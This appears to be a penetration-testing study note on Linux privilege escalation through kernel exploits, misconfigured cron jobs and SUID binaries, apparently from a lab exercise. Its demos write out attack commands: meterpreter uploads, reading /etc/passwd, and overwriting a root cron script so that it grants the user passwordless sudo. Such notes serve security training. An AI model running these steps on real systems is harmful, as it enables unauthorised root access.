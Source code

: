 # Linux Kernel Exploits
- Kernel exploits on Linux will typically target vulnerabilites in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
- Privesc on Linux systems will typically follow the following methodology:
  - Identifying kernel vulnerabilities
  - Downloading, compiling and transferring kernel exploits onto the target system.

## Tools & Environment
- Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.

## Demo: Linux Kernel Exploits

After we obtained a meterpreter session, we enumerate info:

`sysinfo`

`getuid`

www-data is a service account which is often used on linux system which host a webserver.
`shell`

`/bin/bash -i`

`cat /etc/passwd`

`sudo apt-get update`

We use the Linux Exploit Suggester:

meterpreter: `CD /TMP`

meterpreter: `ls`

meterpreter: `upload ~/Desktop/Linux-Enum/les.sh`

meterpreter: `shell`

meterpreter: `ls`

meterpreter: `chmod +x les.sh`

meterpeter: `ls -alps`

meterpeter: `./les.sh`

Gives us Exploits and OS information. We download the exploit from the website. Navigate to the Exploit download.

# Exploiting misconfigured Cron Jobs

## Understanding Cron Jobs

    Cron: A time-based service in Linux used to schedule and automate tasks.
    Cron Job: A task scheduled to run via Cron, such as backups or system upgrades.
    Crontab File: The configuration file where Cron jobs are stored.

## Privilege Escalation Using Cron Jobs

    Cron Jobs as Root: If misconfigured, Cron jobs running as "root" can be exploited for root access.

## Demo: Using Cronjob

  `whoami`
  Displays the current user’s username.

  `groups student`
  Shows the groups that the "student" user belongs to.

  `cat /etc/passwd`
  Displays the content of the /etc/passwd file, revealing user account information.

  `crontab -l`
  Lists the Cron jobs scheduled for the current user.

  `ls -al`
  Lists all files and directories in the current directory with detailed information.

  `cat message`
  Displays the content of the "message" file.

  `pwd`
  Prints the current working directory.

  `cd /`
  Changes the directory to the root (/) of the filesystem.

  `grep -rnw /usr -e "/home/student/message"`
  Recursively searches for the string "/home/student/message" in files under /usr.

  `ls -al /tmp`
  Lists all files in the /tmp directory with detailed information.

  `cat /tmp/message`
  Displays the content of the "message" file in the /tmp directory.

  `ls -al /usr/local/share/copy.sh`
  Lists detailed information about the copy.sh script.

  `cat /usr/local/share/copy.sh`
  Displays the content of the copy.sh script.

  `printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' >
/usr/local/share/copy.sh`
  Creates or modifies the copy.sh script to add a command that gives the "student" user root privileges.

  `sudo -l`
  Lists the commands that the current user can run with sudo.

  `sudo su`
  Switches to the root user if allowed by sudo.

  `whoami`
  Confirms the current user, which should now be root.

  `cd /root`
  Changes the directory to the root user's home directory.

  `ls`
  Lists files in the current directory.

  `cat flag`
  Displays the content of the "flag" file.

  `crontab -l`
  Re-checks the scheduled Cron jobs to verify any changes.

# Exploiting SUID Binaries
- In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialised permissions that can be utilized in specific situations. One of these access permissions is the SUID (Set Owner User ID) permission.
- When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary.
- SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with "root" permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if inproperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.


